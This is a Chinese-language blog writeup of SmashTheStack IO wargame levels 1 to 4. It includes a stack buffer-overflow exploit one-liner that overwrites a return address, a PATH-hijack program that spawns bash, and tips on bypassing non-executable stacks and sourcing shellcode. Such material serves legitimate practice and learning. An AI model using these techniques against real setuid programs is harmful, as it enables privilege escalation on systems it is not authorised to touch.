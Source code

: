 ```yaml
---
layout: post
title:  "IO Smashthestack level1"
date:   2014-05-18 22:30:01
categories: writeup
---
```


#SmashTheStack Io Writeup
##level01
先看README.cn<br>
打开/levels/<br>
直接gdb level01<br>
disassemble main<br>
![level01_smash_the_stack](/blog/public/img/140518_level01.png)

将0x10f转换为十进制是271

./level01
输入271即可

##level02
在不能除0的情况下构造sig_FPE
<br>小trick<br>
abx(2**31)/-1 即可
<br>__done__


##level03
stackoverflow
<br>
input的数据没做检查，就直接覆盖了堆栈。这里需要不少的基础知识。首先是函数调用的时候的堆栈情况如下：
<br>
![level03_smash_the_stack](/blog/public/img/140519_level03.png)
<br>
由上图可以看出如果我们覆盖buffer，那么很有可能覆盖到函数指针地址。看函数源码可以得到如果我们将bad的地址换成good的函数指针地址，那么我们就成功了。

显然需要用gdb去调试,r AAAAA，disassemble main，disassemble bad.加断点在call bad之前（0x0804856d）,ebp之前的100个字节打出来x/100x 0x0804851d

找到41414141和bad的地址的差值（76）也就是说我们需要填充76位才能覆盖到bad的返回地址

这里有很多方法：

	./level03 `echo AAA...76个...AA\x74\x84\x04\x08`
	or
	./level03 $(python -c 'print "A"*76+"\x74\x84\x04\x08"')
	or
	(gdb)r $(python -c 'print "A"*76+"\x74\x84\x04\x08"')
	
ok
##level04
改path（export）

建/tmp/下的一个目录，编译一个新的whoami文件

系统找path的时候，由于我们把这个路径放在path最前面，所以系统会直接使用这个文件。

	//for example
	#include <unistd.h>

	int main(int argc, char const *argv[])
	{
		execl("/bin/bash","bash",(char*)0);
		return 0;
	}
	
	
上面的例子执行whoami的时候可以直接实现bash的执行。
###note
1. 如果想测试shellcode遇到栈不可执行的时候，会出现段错误，可以安装execstack小程序，直接-s参数对可执行文件进行处理，即可跳过这一限制
2. shellcode生成可以使用metasploit或者pwntools自己写
3. 注意64位和32位和cpu架构的区别